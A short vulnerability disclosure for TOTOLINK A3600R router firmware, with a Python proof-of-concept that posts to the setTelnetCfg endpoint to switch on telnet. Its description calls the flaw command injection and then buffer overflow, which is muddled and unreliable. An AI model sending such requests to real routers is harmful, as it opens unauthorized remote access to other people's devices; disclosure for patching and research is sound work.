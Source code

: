 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a command injection vulnerability in the `setTelnetCfg` function. The `v5` variable receives the `telnet_enabled` parameter from a POST request. However, since the user can control the input of `telnet_enabled`, the telnet service can cause a buffer overflow vulnerability.

![image-20240719233727873](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719233727873.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"telnet_enabled":"1", "topicurl":"setting/setTelnetCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719233900221](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719233900221.png)
